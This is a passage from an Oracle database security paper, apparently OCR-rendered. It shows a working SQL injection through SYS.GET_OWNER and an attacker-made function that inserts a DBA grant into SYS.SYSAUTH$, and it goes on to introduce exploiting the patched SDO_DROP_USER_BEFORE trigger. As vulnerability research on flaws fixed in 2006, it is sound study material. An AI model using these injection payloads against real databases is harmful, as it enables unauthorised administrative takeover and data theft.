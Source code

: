 `PL/SQL procedure successfully completed. `
` `
`SQL> SET ROLE DBA; `
` `
`Role set. `

Note that, on some systems, such as 10g Release 2 a "unique constraint"
error might be generated but the INSERT does succeed:

`SQL> CONNECT CSESS/PASSWORD `
`Connected. `
`SQL> SET ROLE DBA; `
`SET ROLE DBA `
`* `
`ERROR at line 1: `
`ORA-01924: role 'DBA' not granted or does not exist `
`SQL> EXEC SYS.GET_OWNER('AAAA''`

| |CHR(CSESS.CSESS_FUNC(*declare pragma autonomous_transaction; begin
execute immediate **'INSERT INTO SYS.SYSAUTH$ (GRANTEE\#, PRIVILEGE\#,
SEQUENCE\#) VALUES (1,4,(SELECT MAX(SEQUENCE\#)+1 FROM
SYS.SYSAUTH$))**'; commit; end;*))--'); BEGIN SYS.GET_OWNER('AAAA'' |
|CHR(CSESS.CSESS_FUNC(*declare pragma autonomous_transaction; begin
execute immediate **'INSERT INTO SYS.SYSAUTH$ (GRANTEE\#,PRIVILEGE\#,
SEQUENCE\#) VALUES (1,4,(SELECT MAX(SEQUENCE\#)+1 FROM
SYS.SYSAUTH$))**'; commit; end;*))--'); END;

`* `
`ERROR at line 1: `
`ORA-00001: unique constraint (SYS.I_SYSAUTH1) violated `
`ORA-06512: at line 1 `
`ORA-06512: at "CSESS.CSESS_FUNC", line 1 `
`ORA-06512: at "SYS.GET_OWNER", line 7 `
`ORA-06512: at line 1 `

`SQL> SET ROLE DBA; `
` `
`Role set. `

So, by injecting DBMS_SQL.EXECUTE as an auxiliary function with
"limited" scope, an attacker can create their own auxiliary inject
function to then do whatever they want.

## Exploiting the SDO_DROP_USER_BEFORE trigger

In the introduction I mentioned the SDO_DROP_USER_BEFORE trigger. In
10g Release 2 and before October 2006, when the flaw was patched, this
trigger owned by MDSYS was vulnerable to SQL injection. At the time it
was believed that this was only exploitable if the attacker had the
CREATE PROCEDURE (and therefore FUNCTION) privilege \[see DB02 entry in
<http://www.oracle.com/technology/deploy/security/critical-patch-updates/cpuoct2006.html#AppendixA>\]
